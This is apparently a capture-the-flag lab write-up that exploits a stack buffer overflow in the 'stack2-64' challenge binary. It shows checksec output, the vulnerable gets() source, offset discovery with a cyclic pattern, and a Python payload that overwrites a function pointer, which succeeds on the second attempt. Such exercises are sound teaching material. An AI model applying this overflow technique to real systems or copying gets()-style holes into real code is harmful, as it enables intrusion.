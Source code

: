 # stack2

Control flow hijacking

## Inital Exlporation

``` bash
$ cd /problems/stack2r-64_7_6f3f38bb74a66565cc9342709dadda5e/
$ pwn checksec ./stack2-64 
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

- This is in little endian
- has PIE enabled

## Code analysis

> [!NOTE]
> Full code is in ./stack2.c

``` C
void recalibration() {
    // need to get here to print the flag
}

int main(int argc, char **argv) {
    volatile int (*fp)(); 
    char buffer[{{buffsize}}]; // <-- the buffer we need to exploit and overflow 

    fp = 0; // <-- function pointer called below.

    gets(buffer); // <-- vulnerable function

    if (fp) { 
        printf("Calling function pointer, jumping to %p\n", fp);
        fp();
    }
}
```

## Figuring out offset

> [!NOTE]
> Aestrix are here for visualization purposes, they are not part of either input or output.

- injecting cyclic 100: `**aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaan**aaa*oaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa*`
  - buffer is: `**aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaan**`
  - fp is: `*oaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa*`
- len of cyclic string minus fp is 56; offset is 56

## Getting Recalibration

- we need to know the address of recalibration to inject it into fp

```bash
$ objdump -d /problems/stack2r-64_7_6f3f38bb74a66565cc9342709dadda5e/stack2-64 | grep recalibration

00000000000007aa <recalibration>:
```

- Now, we know the address, and the offset.
- Trying to modify the script with that did not work. Instead, we need to get the address within gdb by doing `p recalibrate` which yields `0x5555555547aa`.
- Plugging this into our script, we get:

``` python
exploit_str = b"A" * offset + p64(0x5555555547aa)
```

## It works! Now what?

- We need to run the file directly, and manually input the exploit string. This is due to the binary running with different permissions than it would get via GDB
- To get the converted string, enter the python3 enviornment and run the code for our exploit stirng crafting. we will get
`b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xaaGUUUU\x00\x00'`

### Try #1

- Piping the string directly into the binary didnt work, so i tried to manually build it with so
- I converted the hexadecimal directly into a little endian expressed bit string

``` bash
$ python3 -u -c 'print(b"A" * 56 + b"\xaa\x47\x55\x55\x55\x55\x00\x00")' | ./stack2-64 
Calling function pointer, jumping to 0x55476161785c4141
Segmentation fault (core dumped)
```

- Doing this, we get issues with terminal input inputting unwanted ascii characters

### Try #2

```bash
python3 -u -c 'import sys; sys.stdout.buffer.write(b"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xaaGUUUU\x00\x00")' | ./stack2-64
```

this works!!!
